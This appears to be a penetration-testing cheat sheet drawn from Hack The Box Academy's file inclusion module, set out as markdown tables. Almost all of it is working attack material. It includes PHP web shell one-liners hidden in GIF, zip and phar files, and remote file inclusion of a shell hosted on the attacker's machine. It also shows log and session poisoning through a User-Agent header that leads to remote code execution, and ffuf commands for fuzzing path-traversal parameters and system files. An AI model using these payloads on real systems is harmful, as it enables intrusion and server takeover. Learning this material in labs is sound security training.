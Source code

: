 ## RFI Remote File Inclusion  

| **Command** | **Description** |
| --------------|-------------------|
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id` | Include remote PHP web shell |


## LFI + Upload  

| **Command** | **Description** |
| --------------|-------------------|
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` | Create malicious image by Crafting Malicious GIF webshell |
| `/index.php?language=./profile_images/shell.gif&cmd=id` | RCE with malicious uploaded image |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious [zip archive](https://academy.hackthebox.com/module/23/section/1493) as `shell.jpg` |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id` | RCE with malicious uploaded zip |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg` | Create malicious phar 'as jpg', compile it into a phar file and rename it to `shell.jpg` |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id` | RCE with malicious uploaded phar |

## Log Session Poisoning  

| **Command** | **Description** |
| --------------|-------------------|
| `PHPSESSID=nguh23jsnmkjuvesphkhoo2ptt` | Example of session cookie indicate the log path as `/var/lib/php/sessions/sess_nguh23jsnmkjuvesphkhoo2ptt` |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` | Read PHP session parameters |
| `<?php system($_GET["cmd"]);?>` | This webshell url encode to the following payload used for poisoning, `%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Poison PHP session with web shell in [web server log with poison attack](https://academy.hackthebox.com/module/23/section/252) |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id` | RCE through poisoned PHP session |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log |
| `/index.php?language=/var/log/apache2/access.log&cmd=id` | RCE through poisoned PHP session |


## FUZZING LFI Parameters + Files  

| **Command** | **Description** |
| --------------|-------------------|
| `sudo python -m pyftpdlib -p 21` | start a basic FTP server with Python's pyftpdlib |
| `impacket-smbserver -smb2support share $(pwd)` | SMB file share hosting |
| `sudo python3 -m http.server <LISTENING_PORT>` | To host our shell.php |
| `ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php` | Fuzzing for PHP Files |
| `ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value'` | Fuzz page for undocumented web parameters using [FFUF Automated Scanning](https://academy.hackthebox.com/module/23/section/1494) |
| `ffuf -w /usr/share/seclists/Fuzzing/XSS/XSS-With-Context-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ'` | Fuzz LFI payloads with [LFI wordlists](https://academy.hackthebox.com/module/23/section/1494) |
| `ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path |
| `ffuf -c -ic -w drtychai-lfi-wordlist.txt:FUZZ -u 'http://94.237.49.11:53690/ilf_admin/index.php?log=../../../../../../../..FUZZ' -fs 2046 -replay-proxy http://127.0.0.1:8080` | FFUF via proxy an identified LFI injection web paramenter with the wordlist drtychai lfi. |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287` | Fuzz server configurations |
| [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) | SecLists Fuzzing LFI |